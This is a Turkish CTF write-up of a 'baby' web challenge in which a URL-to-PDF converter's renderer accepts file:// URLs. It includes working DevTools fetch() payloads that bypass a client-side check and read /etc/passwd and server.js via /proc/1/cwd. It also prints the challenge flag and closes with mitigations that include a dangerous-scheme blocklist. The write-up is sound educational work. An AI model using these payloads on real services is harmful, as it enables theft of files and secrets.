





# NoHackNoCTF 2026 — `#include` Writeup

- **Yazar:** Efe Şahinbaş
- **GitHub Deposu:** [MacallanTheRoot/ctf-writeups](https://github.com/MacallanTheRoot/ctf-writeups/)

**Kategori:** Web  
**Zorluk:** Baby  
**Hedef:** `http://txg.chal2.teagod.tech:8722/`  
**İpucu:** `Yet another PDF converter. easy enough, right? flag in source code.`

---

## Özet

Bu challenge’da karşımızda basit bir URL-to-PDF converter uygulaması vardı. Uygulama kullanıcıdan bir URL alıyor, bu URL’yi sunucu tarafında render ediyor ve çıktı olarak PDF dosyası döndürüyordu.

Temel zafiyet, backend tarafındaki PDF renderer’ın `file://` URL şemasını kabul etmesinden kaynaklanıyordu. Bu davranış kullanılarak sunucu üzerindeki yerel dosyalar okunabildi. Önce `/etc/passwd` dosyası okunarak local file read doğrulandı. Ardından `/proc/1/cwd` yöntemiyle uygulamanın çalışma dizini bulundu ve `server.js` kaynak kodu okundu. Flag, `server.js` dosyasının sonunda yorum satırı olarak yer alıyordu.

---

## 1. İlk Keşif

Challenge sayfasına girdiğimde basit bir PDF converter arayüzüyle karşılaştım. Sayfa, kullanıcıdan bir URL alıyor ve girilen URL’deki içeriği PDF’e dönüştürüyordu.



Challenge ipucunda şu ifade yer alıyordu:

> flag in source code

Bu ipucu, sadece frontend ile etkileşime geçmenin yeterli olmadığını; asıl hedefin backend kaynak kodunu okumak olduğunu gösteriyordu.

Uygulama kullanıcı tarafından verilen URL’yi sunucu tarafında PDF’e dönüştürdüğü için, server-side rendering kaynaklı bir zafiyet olabileceğini düşündüm. Eğer backend renderer `file://` şemasını kabul ediyorsa, bu durum sunucu üzerindeki yerel dosyaların okunmasına yol açabilirdi.

---

## 2. Client-Side URL Kontrolü

İlk olarak URL alanına doğrudan şu payload’u girmeyi denedim:

```text
file:///etc/passwd
```

Ancak frontend bunu engelledi. Sayfa tarafında yalnızca `http://` veya `https://` ile başlayan URL’lere izin veren bir JavaScript kontrolü vardı.

Bu tarz kontroller gerçek bir güvenlik önlemi değildir, çünkü yalnızca kullanıcının tarayıcısında çalışır. Eğer backend aynı kontrolü tekrar uygulamıyorsa, istek manuel olarak gönderilebilir.

Sayfada ayrıca Google reCAPTCHA bulunduğu için doğrudan `curl` veya Python ile istek atmak yeterli olmadı. Bunun yerine captcha’yı tarayıcıda normal şekilde çözdüm ve geçerli reCAPTCHA token’ını kullanarak isteği DevTools üzerinden manuel gönderdim.

---

## 3. DevTools Üzerinden Manuel İstek Gönderme

Captcha’yı çözdükten sonra tarayıcının DevTools konsolunu açtım ve `/convert` endpoint’ine manuel POST isteği gönderdim.

```javascript
const target = 'file:///etc/passwd';
const token = grecaptcha.getResponse(captchaWidgetId);

fetch('/convert', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  },
  body:
    'url=' + encodeURIComponent(target) +
    '&g-recaptcha-response=' + encodeURIComponent(token)
})
  .then(r => r.blob())
  .then(b => {
    const url = URL.createObjectURL(b);
    const a = document.createElement('a');
    a.href = url;
    a.download = 'passwd.pdf';
    a.click();
  });
```



Bu istek, frontend tarafındaki URL kontrolünü atladı. Aynı zamanda geçerli bir reCAPTCHA token’ı kullanıldığı için backend isteği kabul etti.

Sonuç olarak sunucu, `/etc/passwd` dosyasının içeriğini PDF olarak döndürdü.



Bu çıktı, backend renderer’ın `file://` şeması üzerinden yerel dosyaları okuyabildiğini doğruladı.

---

## 4. Kaynak Kodun Yolunu Bulmak

Bir sonraki hedef backend kaynak kodunu okumaktı.

İlk olarak bazı yaygın dosya yollarını denedim:

```text
file:///app/server.js
file:///home/ctf/server.js
file:///home/node/server.js
```

Ancak bu yollar doğrudan sonuç vermedi.

Kaynak kodun tam konumunu tahmin etmek yerine Linux sistemlerde kullanılabilecek `/proc` yönteminden faydalandım.

CTF ortamlarında, özellikle Docker konteynerlerinde, ana uygulama süreci çoğu zaman PID `1` olarak çalışır. Aşağıdaki yol, PID `1` ile çalışan sürecin mevcut çalışma dizinine işaret eder:

```text
/proc/1/cwd
```

Eğer Node.js uygulaması kendi proje dizininden çalıştırılıyorsa, bu yol kullanılarak tam dizin bilinmeden kaynak dosyaya erişilebilir.

Bu yüzden hedefi şu şekilde güncelledim:

```text
file:///proc/1/cwd/server.js
```

---

## 5. `server.js` Dosyasını Okumak

DevTools payload’unu bu kez `/proc/1/cwd/server.js` dosyasını okuyacak şekilde değiştirdim.

```javascript
const target = 'file:///proc/1/cwd/server.js';
const token = grecaptcha.getResponse(captchaWidgetId);

fetch('/convert', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  },
  body:
    'url=' + encodeURIComponent(target) +
    '&g-recaptcha-response=' + encodeURIComponent(token)
})
  .then(r => r.blob())
  .then(b => {
    const url = URL.createObjectURL(b);
    const a = document.createElement('a');
    a.href = url;
    a.download = 'server.pdf';
    a.click();
  });
```



Bu istek sonucunda sunucu yeni bir PDF dosyası döndürdü. Bu kez PDF içinde backend kaynak kodu bulunuyordu.



Kaynak kod incelendiğinde uygulamanın PDF üretimi için `html-pdf-node` kullandığı görüldü. Kullanıcıdan alınan `url` değeri doğrudan PDF generator’a veriliyordu.

Zafiyetli akışın sadeleştirilmiş hali şu şekildeydi:

```javascript
const pdf = await html_pdf_node.generatePdf(
  { url },
  {
    format: 'A4',
    path: job.output_path,
    printBackground: true
  }
);
```

Backend tarafında güvenli URL şemaları için yeterli bir kısıtlama yapılmadığı için `file://` URL’leri de render edilebiliyordu.

---

## 6. Flag’in Elde Edilmesi

Okunan `server.js` dosyasının en alt kısmında flag yorum satırı olarak yer alıyordu:

```javascript
// . . .˚ . ✦˚ . ˚ . ✦ ˚ . . ✦ . ˚ *
// .✦ ˚ . . ✦ ˚ .
// NHNC{Well_done!_stay_tuned_for_the_next_challenge.}
// ✦ . ˚ * . . ✦ ˚ ✦ ˚ .
```

Flag:

```text
NHNC{Well_done!_stay_tuned_for_the_next_challenge.}
```

---

## Root Cause

Zafiyetin temel sebebi, backend’in kullanıcıdan gelen URL’yi güvenli şekilde doğrulamadan server-side PDF renderer’a göndermesiydi.

Frontend tarafında HTTP/HTTPS dışındaki URL’leri engelleyen bir kontrol vardı. Ancak bu kontrol backend tarafında uygulanmadığı için güvenlik açısından yeterli değildi. Kullanıcı, DevTools üzerinden manuel istek göndererek `file://` URL’lerini backend’e iletebildi.

Bu durum, PDF dönüştürme mekanizması üzerinden arbitrary local file read zafiyetine yol açtı.

---

## Etki

Bu zafiyet ile saldırgan sunucu üzerindeki hassas yerel dosyaları okuyabilir.

Bu challenge kapsamında okunan dosyalar:

```text
/etc/passwd
/proc/1/cwd/server.js
```

Gerçek bir sistemde benzer bir zafiyet şu tür verilerin sızmasına sebep olabilir:

- Uygulama kaynak kodları
- Ortam değişkenleri
- API anahtarları
- Yapılandırma dosyaları
- İç servis kimlik bilgileri
- Bulut metadata servisleri
- Internal network üzerindeki servisler

---

## Mitigation

Bu tür bir zafiyeti önlemek için kullanıcıdan alınan URL değerleri backend tarafında kesin olarak doğrulanmalıdır.

Alınabilecek önlemler:

1. URL doğrulaması mutlaka backend tarafında yapılmalıdır.
2. Sadece `http://` ve `https://` şemalarına izin verilmelidir.
3. Tehlikeli URL şemaları açıkça engellenmelidir:

```text
file://
ftp://
gopher://
dict://
data://
```

4. Localhost ve private IP aralıklarına erişim engellenmelidir.
5. PDF renderer izole bir sandbox içinde çalıştırılmalıdır.
6. Renderer sürecinin dosya sistemi erişimi kısıtlanmalıdır.
7. Güvenlik için frontend kontrollerine güvenilmemelidir.
8. Mümkün olduğunda blocklist yerine allowlist yaklaşımı kullanılmalıdır.

---

## Son Notlar

Bu challenge, server-side URL rendering işlemlerinin yanlış yapılandırıldığında ne kadar tehlikeli olabileceğini gösteren temiz bir baby-level web challenge’dı.

Çözüm adımları özetle şu şekildeydi:

```text
1. PDF converter davranışını analiz et.
2. Frontend-only URL kontrolünü tespit et.
3. Geçerli reCAPTCHA token’ını kullanarak manuel istek gönder.
4. file:///etc/passwd ile local file read doğrula.
5. /proc/1/cwd/server.js ile kaynak kodu oku.
6. Flag’i kaynak koddan elde et.
```

Final flag:

```text
NHNC{Well_done!_stay_tuned_for_the_next_challenge.}
```
